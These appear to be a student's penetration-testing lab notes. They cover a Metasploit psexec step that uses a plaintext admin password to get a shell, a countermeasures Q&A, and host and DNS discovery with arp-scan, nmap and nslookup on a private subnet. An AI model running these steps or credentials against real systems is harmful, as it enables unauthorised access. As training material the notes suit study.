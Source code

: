 
> use exploit/windows/smb/psexec
admin:et1@sR7!

> we get shell.


task12: Countermeasures

1. What protocol can be used on the intranet in order to avoid that credentials are transmitted in clear-text?
	SSL

2. What protocl or tool cab be used as a replacement For the FTP service in use on the host?
	SFTP

3. What protocol can be used to ensure that all traffic between the file server and any other host on the LAn are encrypted?
	IPSEC

4. What countermeasure can be impemented in order to protect the network against ARP poisoning attakcs?
	You can use static ARP entries

_______________________________________________________________________________
2 - version

- 1 - scan the network to find alive hosts

```
arp-scan -I eth1 172.16.5.0/24
or
netdiscover -i eth1
or 
nmap -PR -sn 172.16.5.*
```

```
172.16.5.1
172.16.5.5
172.16.5.6
172.16.5.10
172.16.5.101
```


- 2 - find the DNS server

```
nmap -sV -p 53 <network>
	in this case: 172.16.5.10 is the DNS server
	
```


- 3 - scan the DNS server to find new hosts

```
nslookup
> server <DNS Server>
	ip u wanna check
```
